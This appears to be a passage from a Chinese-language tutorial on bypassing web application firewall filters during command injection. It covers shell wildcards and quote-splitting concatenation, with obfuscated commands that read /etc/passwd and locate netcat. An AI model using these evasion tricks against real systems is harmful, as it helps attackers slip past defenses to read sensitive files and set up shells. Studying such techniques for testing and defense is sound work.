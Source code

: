 ```
[^ ]    若中括号内的第一个字符为指数符号 (^) ，那表示『反向选择』，例如 [^abc] 代表 一定有一个字符，只要是非 a, b, c 的其他字符就接受的意思。
```
使用通配符来执行命令
![Alt text](36.jpg)
![Alt text](37.jpg)

##### 技巧二：连接符
你唯一需要注意的就是闭合，这点很重要，利用这个我们可以绕过一些匹配字符串的WAF规则。
```shell
/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd
/'b'i'n'/'w'h'i'c'h' 'n'c
```
![Alt text](38.jpg)
![Alt text](39.jpg)
其他字符：
```
/"b"i"n"/"w"h"i"c"h" "n"c
```